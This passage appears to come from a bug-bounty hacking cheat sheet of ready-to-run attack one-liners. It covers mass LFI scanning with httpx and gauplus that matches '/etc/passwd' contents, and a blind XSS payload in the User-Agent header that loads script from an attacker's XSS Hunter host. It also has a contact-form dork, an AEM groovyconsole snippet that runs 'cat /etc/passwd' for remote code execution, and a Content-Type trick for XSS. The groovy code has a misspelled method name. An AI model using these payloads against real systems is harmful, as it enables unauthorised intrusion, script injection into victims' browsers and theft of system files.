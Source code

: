 httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"

```

From archive:-

```

cat allhosts | gauplus -t 100 --random-agent -o result.txt ;cat result.txt| gf lfi >> lfi.txt ; httpx -l lfi.txt -paths /root/lfi_wordlist.txt -threads 100 -random-agent -x GET,POST,PUT -tech-detect -status-code -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"

```



Blind XSS at scale 

```

cat domains.txt | waybackurls | httpx -H "User-Agent: \"><script src=$YOUR_XSS_HUNTER></script>"

```



```

site:target.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form"

```

fill html code in username and xsshunter in the message





AEM:

	/api.json

	/etc/groovyconsole.html -> RCE with the below code

		```

			def sout = new StringBuffer(), serr = new StringBuffer()

			def proc = 'cat /etc/passwd'.execute()

			proc.consumProcessOutput(sout,serr)

			proc.waitForOrKill(1000)

			println "out> $sout err> $serr"

		```



	

For XSS:

	Content-Type:application/json -> Content-Type:text/xss

```